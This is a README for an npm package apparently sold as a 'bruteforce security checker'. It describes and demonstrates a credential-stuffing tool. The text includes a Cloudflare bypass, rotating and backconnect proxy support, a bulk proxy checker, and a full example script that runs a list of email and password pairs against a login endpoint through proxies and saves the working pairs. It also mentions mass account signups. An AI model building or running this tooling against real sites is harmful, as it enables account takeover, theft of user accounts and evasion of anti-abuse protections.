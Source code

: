 # bruteforce-security-checker

By this module you can:
1. Test site for bruteforce security by implement HTTP/WS login requests
2. Test site accessibility on mass user signups.


v1.1.32
- fixes with service.r


v1.1.3
- added "service.rCloudFlare" to bypass cloudflare


v1.1.22
- bug fixes with proxy types. Sometimes good one lib. Sometimes another "b.loadProxyAgents" or "b.loadProxyAgentsV2".


v1.1.2
- some updates to support backconnect proxies.
- changed proxy agent creation. Through "proxy-agent" lib now.


v1.1.1
- added https proxy support. Now 'http', 'https' and 'socks'.

## Table of contents

- [Installation](#installation)
- [Documentation](#documentation)
- [Bruteforce](#bruteforce)
- [Service](#service)
- [ProxyChecker](#proxyChecker)
- [Examples](#examples)
---

## Installation
```npm i @k7eon/bruteforce-security-checker --save```

## Documentation
For methods documentation visit [Doxdox generated docs](https://doxdox.org/k7eon/bruteforce-security-checker)

---------------------------------
# BruteForce
```js
const b = require('@k7eon/bruteforce-security-checker').bruteforce;
// or
const {bruteforce} = require('@k7eon/bruteforce-security-checker');
```

---------------------------------
# Service class
Service is a class with some usefully methods for implement HTTP request

```js
const Service = require('@k7eon/bruteforce-security-checker').Service;
// or
const {Service} = require('@k7eon/bruteforce-security-checker');
```

---------------------------------
# ProxyChecker
Return created class that are ready to check 'http' proxies from files:

usage:
```js
// someFile.js
const proxyChecker = require('@k7eon/bruteforce-security-checker').proxyChecker;
proxyChecker.run(
  'files/proxy.txt',
  'files/valid_proxies.txt',
  'http', // proxy type 'http' or 'https' or 'socks'
  100,    // threads,
  60000,  // timeout in ms
);
```

---------------------------------
## Examples


---------------------------------
#### Example of *Service* usage
```js
  // MySiteClass.js
  const Service = require('@k7eon/bruteforce-security-checker').Service;

  class MySiteClass extends Service {
    
    /**
    * if login success return cookies or null or throw HTTP layer exception;
    * @param login
    * @param password
    * @param agent      - socks proxy agent
    * @return {Promise<*>}
    */
    async login(login, password, agent=null) {
      let config = {
        method: 'POST',
        url: 'http://mysite.com/login',
        headers: {
          'accept':           'application/json, text/javascript, */*; q=0.01',
          'content-type':     'application/x-www-form-urlencoded; charset=UTF-8',
          'x-requested-with': 'XMLHttpRequest',
        },
        form: {
          'username': login,
          'password': password,
        },
        json: true,
      };
      let {response, body} = await this.r(config, agent);
      
      if (!body.success) return null;
      return this.getSetCookies(response);
    }
  }
  module.exports = new MySiteClass();
```
More about request configs [there](https://github.com/request/request)


---------------------------------
#### Example of *Bruteforce* with *MySiteClass*
```js
// login.js
const fs     = require('fs');
const b      = require('@k7eon/bruteforce-security-checker').bruteforce;
const mySite = require('./MySiteClass');
const FILE = {
  proxies:      'files/proxy_valid.txt',
  registered:   'files/registered.log',
  bad:          'files/bad.log',
  good:         'files/good.log',
  errors:       'files/errors_login.log',
};

b.createFilesIfNotExists(FILE);
b.loadAccounts(FILE.registered); // {email, password}[]
b.removeAccountsBy('email', [FILE.bad, FILE.good]);
b.loadProxyAgents(FILE.proxies);

b.showMetrics({'good':0, 'bad':0, 'errors':0}, 1000);

b.start({
  THREADS:      1,
  whatToQueue:  'accounts',
  useProxy:     true,
  // handlerFunc execute by every account
  handlerFunc: async (task, agent) => {
    /* workflow start */
    let account = task;
    console.log('account', account);
    let {email, password} = account;
    
    try {
      let cookie = await mySite.login(email, password, agent);

      if (!cookie) {
        console.log('bad');
        b.save(FILE.bad, email, 'bad');  
        return {agent};
      }
      
      console.log('good');
      b.save(FILE.good, [email, password].join(':'), 'good');  
      return {agent};
      
    } catch (e) {
      console.log('error', e);
      b.save(FILE.errors, `${JSON.stringify({account, proxy: agent.options.host})}\n${e.stack}\n`, 'errors');
      b.reCheck(account);
      return {agent};
    }
    /* end workflow */
  },
  drainCallback: () => {
    console.log('All accounts are checked');
  }
});
```
- Run ```node login.js```


